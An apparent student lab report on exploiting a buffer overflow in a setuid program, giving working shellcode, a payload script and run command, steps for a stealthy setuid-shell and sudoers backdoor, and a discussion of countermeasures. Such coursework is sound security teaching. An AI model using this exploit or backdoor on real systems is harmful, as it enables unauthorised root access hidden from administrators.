



# Lab 2

> An explanation of how your exploit gains root access in detail, including memory layout and screenshots. Graphical image(s) of the memory layout is appreciated, as it would help make the explanation more clear.

The exploit gains root access through a buffer-overflow attack, where we overwrite the return-address of the function frame to make the program start executing arbitrary code, in this case our shellcode. The shellcode sets the real user id to root, and opens a shell. This is possible since the addhostalias executable has the setuid flag. 

The sprintf(formatbuffer, "%s\t%s\t%s\n", ip, hostname, alias) writes three arguments into a 256-byte byffer with no bounds check. If we pass a 260-byte IP argument the buffer overflows past its end and passed the saved EDP and the hostname lands exactly at the saved return adress.

The nop-sled is both used for padding but its mostly used as a run way for the program to land on. This is used because trying to target the exact start of the shellcode may be unreliable. 

> Details on how you created the exploit, including how you found the return address (no bruteforcing), explaining the stack execution and how you managed to ensure that the exploit works without errors. 

We set a breakpoint at the sprintf call in add_alias
We then ran the program with lots of "A"`s as a test inputs so we can clearly see what is what in the stack
We then used x/4x $ebp+4 to find the exact adress of the return pointer
We used x/100x $sp to locate where the buffer started
Then we took roughly the middle of the NOP´s 
See screenshots 3 and 4. 

Shell code is 76 bytes (we addded one to compensate for \t)
184+76=260, i.e 4 bytes over the buffer size.

Also worth to mention is that the return adress is always +4 from the pointer (GDB EBP), this is because its put directly after the pointer and on this system each slot is 4 bytes. This is only true for a 32-bit program, on a 64-bit program it is instead 8 bytes adress size. 

> Any scripts and/or programs you wrote or used.

shellcode.py:

    import sys

    shellcode = ('\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80'
                +'\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0'
                +'\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80'
                +'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68'
                +'\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0'
                +'\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90'
                +'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90') # 76 bytes
    nops = '\x90' * 184
    if len(sys.argv) > 1 and sys.argv[1] == "console":
        addresses = '\x44\xf9\xff\xbf' # For console
    else:
        addresses = '\xa4\xfa\xff\xbf' # For ssh
    print(nops + shellcode + addresses)

To run exploit: `/usr/bin/addhostalias $(python shellcode.py console) "" ""`
Replace "console" with "ssh" based on environment (addresses varies a bit).

> Instructions how to make root access persistent. I.e. how can we keep root access even after rebooting. Clearly, rerunning the exploit is not a valid answer. The persistent root access should also not be obvious to an active user of the system, such as an admin.

1. Add write permission: `chmod u+w /etc/sudoers`.
2. Allow people in group wheel to run all commands in `/etc/sudoers`. 
3. Remove write permission: `chmod u-w /etc/sudoers`.
4. Add dvader to group wheel in `/etc/group`.
5. User dvader now has full root access via `sudo`.
6. `sudo su` to start root shell. 

Another method (probably more stealthy):
1. Create a copy of shell executable: `cp /bin/sh .localconfig`
2. Make it owned by root: `chown root:root .localconfig`
3. Add executable and setuid permission: `chmod 4755 .localconfig` (change the last "5" to "0" if you want to give it to yourself only)
4. User can now run: `./.localconfig -p` for root shell.

> The shellcode is doing a couple of important instructions (see the explanation of the shellcode below) before starting the shell. What is the shellcode exploiting with how addhostalias is configured, why does it execute these instructions, and what would happen if those instructions were not executed? See the “important instructions” below to spot the important parts of the shellcode.

Addhostalias has setuid permission, meaning the code that the executable runs has root access for any user that runs it. The shellcode exploits this by starting a shell script whithin the process with root access. 
Without setuid(0) / setgid(0) the privileges would go back to the real users UID (dvader) and dropping the given privileges. That means that the shellcode makes the "real" uid = effective uid = root. Then once /bin/sh is run it sees the correct privileges and keeps the root shell. 
Without these instructions first in the shell we would launch it as a puny dvader without acces. 

> Include a comprehensive discussion of countermeasures. Give use cases for each countermeasure and discuss how they can be deployed for the scenario of the lab. The countermeasures should be from different levels, including: Language, Run-time, Operating system

Language Level:
On the language level, countermeasures include bounds checking for memory access/write, i.e. stop write at end of buffer. This is done automatically for safe languages such as rust, but can be done manually in C. There are static analysis tools that can help you find potential vulnerabilities for C. For example, `add_alias` should check that the total length of the arguments is less than the size of the buffer, or `snprintf` should be used instead, where you specify the maximum bytes to be written. Another countermeasure would be to drop the privileges at the end of the add_alias function. This would prevent the shellcode from having root access, and would have stopped the exploit even if there was a buffer overflow.

Runtime:
You can enable checks at runtime using compiler features such as -fstack-protector flags (canaries) and Clang's SafeStack, -fsanitize-address etc. When `addhostalias` is compiled, you can add such flags to the compiler to enable these features, if they are supported. 

OS:
At the OS level, you can prevent this type of attack by using address randomization, disabling code execution on the stack, and using memory tagging. If the OS supports these features, they probably could be enabled. Address randomization makes it harder to figure out which return-address to use, and non-executable stack prevents the shellcode written to the buffer to execute.
